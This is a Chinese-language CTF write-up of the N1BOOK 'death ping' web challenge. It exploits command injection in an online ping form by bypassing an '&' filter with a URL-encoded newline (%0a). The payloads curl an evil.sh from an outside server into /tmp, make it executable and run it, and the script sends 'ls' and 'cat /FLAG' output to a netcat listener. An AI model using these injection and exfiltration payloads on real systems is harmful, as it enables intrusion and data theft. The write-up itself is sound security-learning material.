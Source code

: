 ```yaml
---
title: 从0到1：CTFer成长之路 N1BOOK of web 死亡ping命令 writeup
date: 2022-04-12 11:20:00
updated: 2022-04-12 22:55:00
tags: [ctf,security,<<从0到1：CTFer成长之路>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录 N1BOOK of web 死亡ping命令 writeupcahttps://blog.csdn.net/qq_45414878/article/details/109672659
---
```


是一个提供了ping命令的在线网站

![image-20220412112049704](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412112049704.png)

ping是一个在shell中执行的命令，假如我们可以传入恶意用户输入，可以在shell中执行任意命令的话，想要读个flag文件显然不难。

我先是使用了自己的命令行做了一下测试，测试中也遇到不少奇怪的问题，但是发现个可以利用的点

我这里用&把前面的命令挂起，就可以执行后面的命令

![image-20220412114037460](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114037460.png)

不过试了试发现题目把&过滤了

![image-20220412114122744](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114122744.png)

那看来需要fuzz一下看看过滤了什么，然后再想想能用什么了，我用burpsuite抓包然后来进行fuzz测试

找了好久也没找到什么burpsuite可以用来fuzz单个字符的方法，但是我看别人的wp都能用burpsuite来fuzz单个字符，好奇怪，只能先不管了。

总之参考别人的wp，这里绕过过滤执行shell命令的方法是用%0a，也就是url编码的换行符来执行shell命令，由于docker是没有bash、python程序的，并且sh反弹是不行的，这里只能用curl先获取写在我自己服务器上的.sh文件，将想要执行的恶意代码放进.sh文件中，在题目环境中先用curl获取这个.sh文件并放进tmp目录下，再执行.sh文件，命令执行的结果输出到我服务器监听的端口上，下面是payload，在服务器上放一个evil.sh文件，并且在文件中先后写入`ls -la /| nc ip`看到ls的结果后）知道flag文件名字是FLAG，将evil.sh的内容改成`cat /FLAG | nc ip`，再执行一遍即可。

先让evil.sh的内容为`ls -la / | nc ip port`，

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod777 /tmp/evil.sh`用chmod命令给文件执行权限

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

需要注意一下`ls -la /`这个命令，如果不加/，那么直接ls会在root目录下执行，FLAG放在根目录下，这样你会发现没有flag文件，加了/后发现FLAG文件就在根目录下

![image-20220412225240205](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412225240205.png)

那接下来就修改一下evil.sh 里面内容为`cat /FLAG | nc ip port`就可以

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod777 /tmp/evil.sh`用chmod命令给文件执行权限

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

![image-20220412224057283](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412224057283.png)

拿到flag啦